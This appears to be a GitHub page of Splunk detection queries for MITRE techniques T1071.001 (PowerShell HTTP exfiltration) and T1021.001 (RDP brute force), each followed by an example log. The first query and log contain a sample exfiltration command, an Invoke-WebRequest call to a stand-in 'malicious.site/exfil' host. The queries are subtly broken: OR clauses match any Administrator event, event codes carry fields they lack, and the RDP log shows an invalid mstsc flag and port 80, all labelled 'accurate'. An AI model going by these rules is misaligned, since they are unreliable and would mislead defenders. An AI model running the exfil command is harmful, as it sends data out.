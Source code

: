 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 19:10:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.138",
  "DestinationPort": "8080"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 63"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 19:15:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 63",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.130",
  "DestinationPort": "80"
}
```

---